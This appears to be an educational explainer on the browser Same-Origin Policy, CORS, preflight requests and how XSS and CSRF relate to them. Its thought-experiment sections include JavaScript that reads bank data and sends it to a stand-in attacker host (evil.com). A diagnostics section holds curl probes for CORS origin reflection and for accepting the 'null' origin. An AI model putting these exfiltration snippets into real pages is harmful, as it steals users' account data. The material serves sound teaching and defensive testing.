

⚡ TL;DR - The Same-Origin Policy (SOP) is the browser's
fundamental isolation mechanism. Origin = scheme (http/https)
+ host (domain) + port. Two pages are same-origin only if
ALL THREE components match exactly. SOP rule: JavaScript
on page A can only READ responses from requests to the
same origin as A. It CAN send requests cross-origin (forms,
img tags, XHR) but cannot read the responses.

This is the key distinction that confuses developers:
- SOP blocks reading cross-origin responses (JavaScript cannot
  access the response body of a fetch to another origin)
- SOP does NOT block sending cross-origin requests
  (this is why CSRF is possible - requests are sent with cookies,
  even though the response cannot be read)

CORS (Cross-Origin Resource Sharing) is the mechanism to
RELAX SOP for specific cross-origin reads. CORS headers
tell the browser: "you're allowed to read responses from
this cross-origin request." Without CORS, cross-origin
reads are blocked.

SOP protects against XSS stealing data from other origins.
SOP does NOT protect against CSRF (requests sent, not read).

---

| #020 | Category: Security | Difficulty: ★★☆ |
|:---|:---|:---|
| **Depends on:** | Security Problem, XSS, CSRF | |
| **Used by:** | CORS, CORS Misconfiguration, CSRF Prevention | |
| **Related:** | XSS, CSRF, CORS, CORS Misconfiguration, Browser Security | |

---

### 🔥 The Problem This Solves

**WITHOUT SAME-ORIGIN POLICY (hypothetical):**
User logs into bank.com. In another tab, they visit evil.com.
evil.com's JavaScript does:
```javascript
fetch('https://bank.com/account/balance')
  .then(r => r.json())
  .then(data => {
    // Send bank account data to attacker
    fetch('https://evil.com/steal?data=' + JSON.stringify(data))
  })
```
Without SOP: this works. evil.com's script reads the bank.com
response (with the user's session cookie automatically included
because it's a request to bank.com). Attacker gets full
account data.

**WITH SAME-ORIGIN POLICY:**
fetch sends the request to bank.com (with session cookie -
CSRF is still possible). Bank.com responds. But:
Browser's SOP check: bank.com ≠ evil.com. No CORS header
permitting evil.com. Response is BLOCKED. JavaScript cannot
read the bank account data. Attack fails.

SOP is the mechanism that keeps the web usable: multiple
origins can coexist in the same browser without JavaScript
from one origin reading another's data.

---

### 📘 Textbook Definition

**Origin:** The combination of scheme + host + port.

```
URL: https://api.example.com:443/data
Origin: https://api.example.com:443
  Scheme: https
  Host: api.example.com
  Port: 443 (HTTPS default, often omitted)
```

**Same-Origin:** Two URLs have the same origin if and only if
scheme, host, AND port all match exactly.

| URL A | URL B | Same Origin? | Reason |
|:---|:---|:---|:---|
| https://example.com | https://example.com/page | YES | All match |
| https://example.com | http://example.com | NO | Scheme differs |
| https://example.com | https://api.example.com | NO | Host differs (subdomain) |
| https://example.com | https://example.com:8080 | NO | Port differs |

**Same-Origin Policy Rules:**
JavaScript can:
- READ data from same-origin responses (fetch, XHR)
- SEND requests cross-origin (but cannot read response by default)

JavaScript CANNOT by default:
- READ the response body of a cross-origin request
- Read cookies, localStorage, sessionStorage of another origin
- Access the DOM of a cross-origin iframe
- Access content of cross-origin frames (window.parent.document)

**What SOP does NOT restrict:**
- Loading resources cross-origin (images, scripts, CSS, iframes)
  from HTML tags (img src, script src, link href)
- FORM submissions cross-origin (triggers CSRF vulnerability)
- Sending requests cross-origin (cannot read response)
- Navigation to cross-origin URLs

**CORS:** Mechanism for a server to explicitly allow cross-origin
reads by setting response headers:
```
Access-Control-Allow-Origin: https://trusted.example.com
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Content-Type
```
Browser checks: does the server permit this cross-origin
access? If yes: JavaScript can read the response.

---

### ⏱️ Understand It in 30 Seconds

**One line:**
SOP: JavaScript on origin A cannot READ responses from origin B
(but CAN send requests to B). CORS relaxes this restriction
for specific origins. XSS bypasses SOP (injected script runs
as origin A). CSRF exploits SOP NOT blocking request sending.

**One analogy:**
> SOP is like a library's archive policy: you can submit
> a request to any archive department in the building (send
> cross-origin requests), but you can only READ the documents
> returned by your own department (same-origin responses).
> Other departments get your request (CSRF: they process it)
> but the library doesn't let you take their documents to
> your desk (SOP: you can't read the response).
> CORS is when another department's manager signs a permission
> slip: "this patron is allowed to read our documents."

---

### 🔩 First Principles Explanation

**The precise mechanics of SOP and CORS:**

```
SCENARIO: JavaScript at https://spa.example.com
          makes a request to https://api.example.com

STEP 1: JavaScript does:
  fetch('https://api.example.com/user/profile')

STEP 2: Browser analysis:
  Origin of page: https://spa.example.com
  Origin of request: https://api.example.com
  Same origin? NO (different host)
  → This is a CROSS-ORIGIN request
  → SOP check will apply to the response

STEP 3: Browser sends request:
  GET /user/profile HTTP/1.1
  Host: api.example.com
  Origin: https://spa.example.com  ← browser adds this
  Cookie: session=abc123            ← browser auto-adds (CSRF risk)

STEP 4: api.example.com responds:
  HTTP/1.1 200 OK
  Access-Control-Allow-Origin: https://spa.example.com
  Content-Type: application/json
  {"user": "alice", "balance": 1000}

STEP 5: Browser CORS check:
  Response has: Access-Control-Allow-Origin: https://spa.example.com
  Does it permit the requesting origin? YES
  → JavaScript can read the response
  → fetch().then(r => r.json()) succeeds

SCENARIO WITHOUT CORS HEADER:
  api.example.com responds WITHOUT Access-Control-Allow-Origin
  Browser: no CORS permission for this origin
  → Response is BLOCKED from JavaScript
  → fetch() rejects with network error (response unreadable)
  → JavaScript at spa.example.com CANNOT read the data
  BUT: the request WAS made (and api.example.com DID process it)
  This is the CSRF vulnerability: request sent, attacker can't
  read response, but SERVER already processed the request.

PREFLIGHT (for non-simple requests):
  "Simple" requests: GET/POST with standard headers → direct request
  "Non-simple": PUT, DELETE, custom headers, JSON Content-Type →
    Browser first sends OPTIONS preflight:
    OPTIONS /user/profile
    Access-Control-Request-Method: DELETE
    Access-Control-Request-Headers: Authorization
    
    Server must respond with permissions:
    Access-Control-Allow-Origin: https://spa.example.com
    Access-Control-Allow-Methods: DELETE
    Access-Control-Allow-Headers: Authorization
    
    If server doesn't allow: browser cancels real request.
    If server allows: browser sends the actual DELETE request.
```

---

### 🧪 Thought Experiment

**SCENARIO: Why XSS bypasses SOP**

```
BANK.COM: Authenticated web banking app.
SOP should protect: evil.com JavaScript cannot read bank.com data.

SCENARIO 1: Without XSS (SOP works):
  evil.com's JavaScript:
    fetch('https://bank.com/api/balance')
    // SOP: evil.com ≠ bank.com → response BLOCKED
    // Attacker cannot read bank.com data. Protected.

SCENARIO 2: With Stored XSS on bank.com:
  Attacker injected: <script>evil()</script> into bank.com's page.
  
  User visits bank.com. Attacker's evil() script RUNS ON bank.com.
  From browser's perspective: script is running at bank.com origin.
  
  evil() does: fetch('https://bank.com/api/balance')
  Origin of request: bank.com (the page it's running on)
  Origin of API: bank.com
  SAME ORIGIN → no SOP restriction → response readable.
  
  Attacker's script:
    fetch('https://bank.com/api/balance')
      .then(r => r.json())
      .then(data => {
        // Exfiltrate to attacker's server
        fetch('https://evil.com/log?data=' + btoa(JSON.stringify(data)))
      })
  
  SOP is completely bypassed because XSS made the script
  run IN the target origin. SOP was designed to isolate
  different origins - but XSS turns the target origin
  into the attacker's execution environment.

CONCLUSION: 
  SOP says: "JavaScript from evil.com cannot read bank.com data."
  XSS means: "Attacker's JavaScript is RUNNING ON bank.com."
  The two assumptions are incompatible.
  Fix XSS to preserve SOP's protection.
```

---

### 🧠 Mental Model / Analogy

> SOP is like quarantine zones in a hospital.
> Patients (web pages) in different zones (origins) cannot
> directly share medical charts (DOM, cookies, localStorage).
> A nurse (browser JavaScript engine) can take a message
> from zone A to zone B (send cross-origin request), but
> cannot bring zone B's documents back to zone A (cannot
> read cross-origin response) without explicit permission
> from zone B's doctor (CORS header). CORS is the inter-zone
> communication protocol: zone B doctor signs off "this
> specific zone A patient may see these specific documents."
> XSS is a compromised nurse: attacker's instructions run
> INSIDE zone B (bank.com's origin). No zone restrictions
> apply - they're already inside.

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
SOP is a browser security rule: a website can only read
data from its own address. If you're on evil.com, your
browser won't let evil.com's code read your bank account
information from bank.com. The two websites are different
"origins" and the browser keeps them isolated.

**Level 2 - How to use it (junior developer):**
Understanding SOP explains why cross-origin fetch requests
fail in your browser but work with curl. Curl has no SOP.
To fix CORS errors: the SERVER must add the CORS headers.
Adding CORS headers in the browser doesn't help. If your
SPA at app.example.com needs to call api.example.com:
add `Access-Control-Allow-Origin: https://app.example.com`
to api.example.com's responses.

**Level 3 - How it works (mid-level engineer):**
SOP key insight: requests are sent (server processes them),
only READS are blocked. This is the CSRF opportunity: attacker
makes a request, server processes it, attacker cannot read
the response - but the action already happened. For APIs:
CORS prevents reading unauthorized cross-origin data. For
CSRF: CORS doesn't help (CSRF doesn't need to read the
response). CORS preflight (OPTIONS request) is for non-simple
requests: browser verifies permission before the actual
request. Preflight is not sent for simple GET/POST - which
is why simple state-changing GETs are particularly dangerous.

**Level 4 - Why it was designed this way (senior/staff):**
SOP was designed in 1995 when Netscape added JavaScript.
The threat model: multiple tabs open from different websites.
Without isolation: any open tab could read data from any
other origin. The design: isolate read access by origin.
The tradeoff: allow sending requests cross-origin because
HTML had always allowed linking and form submission across
origins. The CSRF vulnerability is a direct consequence of
this design decision: form submissions (and by extension,
XHR requests) are allowed cross-origin. The web's open-linking
model required cross-origin sending to work. The security
consequence (CSRF) was not fully appreciated until later.
Retrofitting CSRF protection (SameSite cookies, CSRF tokens)
was necessary precisely because the original SOP design
chose usability (cross-origin forms) over security.

**Level 5 - Mastery (distinguished engineer):**
SOP has evolved with browser capabilities. Key additions:
PostMessage API: allows controlled cross-origin communication
between frames/workers (with explicit origin checks). CORS:
controlled cross-origin read relaxation. CSP: limits what
can be loaded, not just read. Cross-Origin Isolation (COOP/COEP):
stronger isolation for Spectre mitigations. The fundamental
tension: the web's power comes from linking and composing
across origins. Security requires isolation. Every addition
(CORS, PostMessage, CSP) represents a negotiated point in
this tension. Spectre (2018) revealed that process-level
isolation is needed beyond JavaScript isolation: even if
JavaScript can't READ cross-origin memory, timing side-channels
via SharedArrayBuffer can infer it. COOP/COEP enable
cross-origin isolation at the OS process level.

---

### ⚙️ How It Works (Mechanism)

**CORS preflight flow:**

```
SPA (https://app.example.com) → API (https://api.example.com)
Complex request: DELETE with Authorization header

STEP 1: JavaScript initiates request
  fetch('https://api.example.com/items/123', {
    method: 'DELETE',
    headers: {
      'Authorization': 'Bearer token123'
    }
  })

STEP 2: Browser sends PREFLIGHT (non-simple request):
  OPTIONS /items/123 HTTP/1.1
  Host: api.example.com
  Origin: https://app.example.com
  Access-Control-Request-Method: DELETE
  Access-Control-Request-Headers: Authorization

STEP 3: API server responds to preflight:
  HTTP/1.1 204 No Content
  Access-Control-Allow-Origin: https://app.example.com
  Access-Control-Allow-Methods: GET, POST, PUT, DELETE
  Access-Control-Allow-Headers: Authorization, Content-Type
  Access-Control-Max-Age: 86400
  (Max-Age: browser can cache this permission for 24h)

STEP 4: Browser sees approval → sends actual request:
  DELETE /items/123 HTTP/1.1
  Host: api.example.com
  Authorization: Bearer token123
  Origin: https://app.example.com

STEP 5: API responds with result:
  HTTP/1.1 200 OK
  Access-Control-Allow-Origin: https://app.example.com
  {"deleted": true}

STEP 6: Browser checks final CORS header:
  Access-Control-Allow-Origin matches? YES
  JavaScript can read response. fetch() resolves.
```



---

### 💻 Code Example

**CORS configuration in server-side code:**

```python
# Python/Flask CORS configuration

# BAD: wildcard origin (allows ALL origins to read API responses)
from flask import Flask
from flask_cors import CORS

app = Flask(__name__)
CORS(app)  # Applies Access-Control-Allow-Origin: *
# PROBLEM: Any website can make authenticated cross-origin requests
# to this API and read the responses. Use this ONLY for truly
# public APIs that need no authentication-based access.

# BAD: wildcard with credentials (impossible AND dangerous)
# CORS spec: you CANNOT combine * with Allow-Credentials: true
# The browser will reject it. Trying to do so is a config error.

# GOOD: specific origins + credentials support
from flask import request, jsonify
from functools import wraps

ALLOWED_ORIGINS = {
    'https://app.example.com',
    'https://admin.example.com'
}

@app.after_request
def add_cors_headers(response):
    origin = request.headers.get('Origin')
    if origin in ALLOWED_ORIGINS:
        response.headers['Access-Control-Allow-Origin'] = origin
        response.headers['Access-Control-Allow-Credentials'] = 'true'
        response.headers['Vary'] = 'Origin'  # Important for caching
    return response

@app.route('/api/data', methods=['GET', 'OPTIONS'])
def get_data():
    if request.method == 'OPTIONS':
        # Preflight response
        response = app.make_default_options_response()
        response.headers['Access-Control-Allow-Methods'] = 'GET, POST'
        response.headers['Access-Control-Allow-Headers'] = (
            'Authorization, Content-Type'
        )
        response.headers['Access-Control-Max-Age'] = '86400'
        return response
    return jsonify({"data": "sensitive info"})
```

---

### ⚖️ Comparison Table

| Mechanism | What It Controls | Enforced By | Attacker Can Bypass? |
|:---|:---|:---|:---|
| **Same-Origin Policy** | Cross-origin response reads by JavaScript | Browser | Via XSS (runs in target origin) |
| **CORS** | Relaxes SOP for specific origins | Browser (checks server headers) | Via CORS misconfiguration (origin reflection) |
| **CSRF Token** | Cross-origin state-changing requests | Server (validates token) | Via XSS (can steal token) |
| **SameSite Cookie** | Cross-origin cookie sending | Browser | Via old browsers, subdomain attacks |

---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|:---|:---|
| SOP prevents CSRF | CSRF works precisely BECAUSE SOP allows sending requests cross-origin. SOP only blocks READING responses. CSRF doesn't need to read the response - it just needs the server to process the request (e.g., transfer money). SOP was designed to prevent cross-origin data theft, not cross-origin request forgery. The two attacks exploit different aspects of the browser's cross-origin model. |
| CORS is a security feature | CORS is a mechanism for RELAXING SOP, not adding security. Misconfigured CORS (reflecting the Origin header without validation, or using `Access-Control-Allow-Origin: *` with credentials) is worse than no CORS: it opens cross-origin reads that SOP would have blocked. CORS misconfiguration is a vulnerability - see SEC-088 CORS Misconfiguration. |

---

### 🚨 Failure Modes & Diagnosis

**Diagnosing CORS and SOP issues:**

```bash
# Error: "CORS policy: No 'Access-Control-Allow-Origin' header"
# Means: request reached server, server didn't include CORS header
# Fix: add CORS header on the SERVER (not in browser JavaScript)

# Test CORS headers with curl:
curl -I -X OPTIONS https://api.example.com/data \
  -H "Origin: https://app.example.com" \
  -H "Access-Control-Request-Method: GET"
# Response should include:
# Access-Control-Allow-Origin: https://app.example.com (or *)
# Access-Control-Allow-Methods: GET

# Check for dangerous CORS misconfiguration:
# Origin reflection (server echoes any origin back):
curl -I https://api.example.com/data \
  -H "Origin: https://evil.com"
# If response has: Access-Control-Allow-Origin: https://evil.com
# This is a CORS misconfiguration vulnerability.
# Any origin is trusted = any origin can read protected API responses.
# Fix: validate Origin against an allowlist, not reflect blindly.

# "null" origin exploit:
curl -I https://api.example.com/data -H "Origin: null"
# If response has: Access-Control-Allow-Origin: null
# Exploitable via: sandboxed iframes, data: URLs, file: URLs
# These all have origin "null" and can read this API's responses.
```

---

### 🔗 Related Keywords

**Prerequisites:**
- `XSS` - how XSS bypasses SOP
- `CSRF` - how CSRF exploits SOP's request-sending permission

**Builds on this:**
- `CORS` - relaxing SOP for cross-origin reads
- `CORS Misconfiguration` - when CORS is configured dangerously
- `CSRF Prevention` - CSRF tokens, SameSite

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ ORIGIN       │ scheme + host + port (ALL must match)     │
│              │ https://a.com ≠ https://b.com ≠           │
│              │ http://a.com ≠ https://a.com:8080        │
├──────────────┼───────────────────────────────────────────┤
│ SOP BLOCKS   │ JavaScript reading cross-origin responses │
│ SOP ALLOWS   │ Sending requests cross-origin             │
│              │ Loading resources via HTML tags           │
├──────────────┼───────────────────────────────────────────┤
│ CSRF         │ Uses SOP ALLOWING sends (not blocked)     │
│ XSS          │ Bypasses SOP (runs inside target origin)  │
├──────────────┼───────────────────────────────────────────┤
│ CORS         │ Server headers permit specific cross-     │
│              │ origin reads. RELAXES SOP, not tightens.  │
│              │ Misconfiguration = worse than no CORS     │
├──────────────┼───────────────────────────────────────────┤
│ ONE-LINER    │ "SOP: different origins can't read each   │
│              │  other's data. But sending is allowed -   │
│              │  hence CSRF. CORS: opt-in to sharing."    │
└──────────────────────────────────────────────────────────┘
```

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
"Security boundaries rarely align perfectly with functionality
boundaries." SOP isolates by origin because origin was the
browser's natural security boundary. But functionality needs
cross-origin communication: SPAs calling APIs, CDNs,
third-party payments. Every security boundary needs an
"authorized exception" mechanism (CORS for SOP, CSRF tokens
for form security, certificates for TLS). The design challenge:
the exception mechanism must be as secure as the boundary
it relaxes. CORS misconfigurations are more dangerous than
no CORS: they grant cross-origin read access that SOP would
have blocked. Every time you relax a security boundary,
the relaxation mechanism becomes the new security-critical
component.

---

### 💡 The Surprising Truth

SOP does NOT protect cross-origin IMAGE loads. When evil.com
includes ``:
the browser loads the image (cross-origin, with session cookies
including), bank.com's server processes the authenticated
request, the image is rendered. This is the basis of
"tracking pixels" - tiny 1x1 images embedded in emails
or pages that tell the server when content was viewed.
SOP protects against JavaScript reading the image data (canvas
tainting: `canvas.getImageData()` is blocked for cross-origin
images). But the HTTP request is made and the server processes
it. This was the mechanism of CSRF via image tags before
CSRF tokens became standard. The `` tag predates
JavaScript and was never subject to SOP's request restrictions.

---

### ✅ Mastery Checklist

**You've mastered this when you can:**
1. **DEFINE** origin precisely: scheme + host + port.
   Give examples of same vs. different origins.
2. **EXPLAIN** what SOP blocks (response reads) vs what it
   allows (request sending) - and why CSRF is possible.
3. **EXPLAIN** how XSS bypasses SOP (runs in target origin).
4. **DESCRIBE** CORS: what headers are needed, why reflecting
   Origin without validation is dangerous.

---

### 🎯 Interview Deep-Dive

**Q: What is the Same-Origin Policy? How does it relate
to CSRF and XSS?**

*Why they ask:* Senior web security question. Tests deep
understanding of the browser security model. Many candidates
know SOP exists but confuse what it protects against.

*Strong answer includes:*
- Origin = scheme + host + port. ALL must match.
- SOP rule: JavaScript can only READ responses from same origin.
  Can SEND requests cross-origin but cannot read response.
- XSS relationship: XSS injects script into the TARGET origin.
  Injected script runs AS that origin. SOP doesn't protect
  against your own origin's scripts. XSS = SOP bypass.
- CSRF relationship: CSRF sends requests cross-origin (which
  SOP allows). Attacker doesn't need to READ the response.
  SOP doesn't prevent cross-site request sending.
  CSRF protection is orthogonal to SOP.
- CORS: server opt-in to allow specific cross-origin reads.
  CORS is RELAXING SOP, not adding security.
  Bad CORS (reflecting all origins): worse than SOP default.
- Practical: CORS errors in browser = server not configured.
  Fix: server adds CORS headers. Browser doesn't block the
  request - it blocks reading the response. Network tab
  shows the request succeeding (200) but JavaScript gets error.
